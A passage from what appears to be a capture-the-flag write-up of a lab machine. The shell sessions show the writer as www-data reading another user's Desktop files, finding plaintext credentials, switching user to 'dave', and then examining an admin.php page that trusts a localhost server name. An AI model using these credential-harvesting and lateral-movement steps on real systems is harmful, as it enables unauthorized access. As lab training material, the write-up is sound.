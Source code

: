 Dave’s desktop looks juicy.

```
www-data@ubuntu:/tmp$ ls -lah /home/dave/Desktop

total 20K
drwxr-xr-x  2 dave dave 4.0K Jun  2  2021 .
drwxr-xr-x 18 dave dave 4.0K Jun  2  2021 ..
-rw-rw-r--  1 alex alex   74 Jul 17  2018 Servers
-rw-rw-r--  1 alex alex   14 Jul 17  2018 key
-rw-rw-r--  1 alex alex   20 Jul 17  2018 ssh
```

Discovered a valid pair of credentials and moved laterally to Dave.

```
www-data@ubuntu:/home/dave/Desktop$ cat *

DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
itscominghome
dave
<REDACTED>

www-data@ubuntu:/home/dave/Desktop$ su - dave 
dave@ubuntu:~$ whoami
dave

dave@ubuntu:~$ id
uid=1001(dave) gid=1001(dave) groups=1001(dave)
```

# Pivoting

The admin.php file appears to be only accessible from the machine itself.

```
dave@ubuntu:/var/www/html/sparklays$ cat admin.php

<div class="container">
<form action ="admin.php" method="GET">
        <h2 class="form-signin-heading">Please Login</h2>
        ...
<?php
$username =$_GET["username"];
$domain = $_SERVER["SERVER_NAME"];
$requri = $_SERVER['REQUEST_URI'];
if (($domain == "localhost") )  { 
   Header( "Welcome Dave" ); 
   header("location: sparklays-local-admin-interface-0001.php
  "); 
}

else if (($username == "dave")) {
  setcookie(sparklaysdatastorage.htb-unbreakable-cookie);

} 
?>
```
